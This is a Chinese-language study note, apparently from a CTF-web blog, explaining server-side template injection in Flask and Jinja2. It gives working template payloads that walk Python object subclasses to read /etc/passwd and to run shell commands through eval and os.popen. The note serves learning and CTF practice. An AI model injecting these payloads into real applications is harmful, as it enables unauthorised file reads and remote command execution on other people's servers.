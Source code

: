 ```yaml
---
title: SSTI漏洞浅析
categories:
  - [ctf-web]
  - 渗透
date: 2023-10-27 22:11:40
tags:
---
```



# SSTI漏洞

- 定义：SSTI 就是服务器端模板注入 (Server-Side Template Injection)
- 基础知识：例如，在jinja2模板引擎中，{ { } }是变量包裹标识符。{ { } }了并不仅仅可以传递变量，还可以执行一些简单的表达式。
<!-- more -->
## Flask jinja2模版漏洞

魔术方法：

```python
__dict__ #保存类实例或对象实例的属性变量键值对字典

__class__ #返回调用的参数类型

__mro__ #返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__
__bases__

__subclasses__()#返回子类

__init__#类的初始化方法

__globals__#函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

**利用方法&实现思路**：在python中，object类是Python中所有类的基类，如果定义没有指定继承哪个类，则默认继承object类。通过python的对象的继承来一步步实现文件读取和命令执行。

### **基本步骤**

1. 找到父类<type 'object'>
2. 寻找子类
3. 找关于命令执行或者文件操作的模块

### 准备工作

拿到object类的方法：

```python
''.__class__.__mro__[2]
[].__class__.__base__
[].__class__.__bases__[0]
#具体情况感觉不一定，需要验证。利用''.__class__.__mro__ 再确定索引
```

获取子类：

```python
#object.__subclasses__()
''.__class__.__mro__[2].__subclasses__()
```

找到object的子类warnings.catch_warnings：

```python
#[].__class__.__base__.__subclasses__().index(warnings.catch_warnings) 该函数暂未成功实现过
[].__class__.__base__.__subclasses__()[59]#默认在59,但有时候会不在，可以利用循环去找，下列具体操作中有示例
```

### 具体操作

#### 读取文件

利用file类：

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='file' %}
		{{"find!"}}
		{{ c("/etc/passwd").readlines() }}
	{% endif %}
{% endfor %}

```

或者还是利用catch_warnings类：

```jinja2
{#提前找到了catch_warnings#}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read()}}
{#利用循环找catch_warnings#}
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}      
		{{c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}
	{% endif %}
{% endfor %}
```

```jinja2
{#利用循环找catch_warnings#}
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='catch_warnings' %}
        {{ c.__init__.__globals__['__builtins__'].eval('open("/etc/passwd", "r").read()') }}
    {% endif %}
{% endfor %}
```

#### 命令执行

(有些执行命令的方式无回显，而当前方法可以看到回显)

如果catch_warnings已经找到：

```jinja2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()")}}
```

如果没找到（利用循环遍历寻找）：

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='catch_warnings' %}
      {{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()")}}
    {% endif %}
{% endfor %}
```

### 绕过过滤

待学习。。。

## 参考链接

https://houwenda.github.io/2020/02/22/jinja2-ssti/ 

https://zhuanlan.zhihu.com/p/93746437

https://zhuanlan.zhihu.com/p/596279414
